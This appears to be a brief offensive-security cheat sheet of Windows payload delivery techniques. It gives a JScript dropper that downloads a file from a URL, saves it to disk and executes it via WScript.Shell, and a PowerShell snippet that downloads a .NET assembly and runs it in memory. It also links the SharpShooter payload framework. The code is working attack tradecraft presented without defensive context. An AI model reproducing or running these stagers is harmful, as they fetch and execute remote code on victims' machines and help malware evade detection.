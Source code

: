 # JScript 101
```js
var url = "URL";
var Object = WScript.CreateObject("MSXML2.XMLHTTP");
Object.Open("GET", url, false);
Object.Send();

if(Object.Status == 200) {
    var Stream = WScript.CreateObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("OUTFILE", 2);
    Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("OUTFILE");
```

# SharpShooter
https://github.com/mdsecactivebreach/SharpShooter

# In-Memory PowerShell
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('URL')  
$assem = [System.Reflection.Assembly]::Load($data)  
$class = $assem.GetType("ClassLibrary1.Class1")  
$method = $class.GetMethod("runner")  
$method.Invoke(0, $null)
```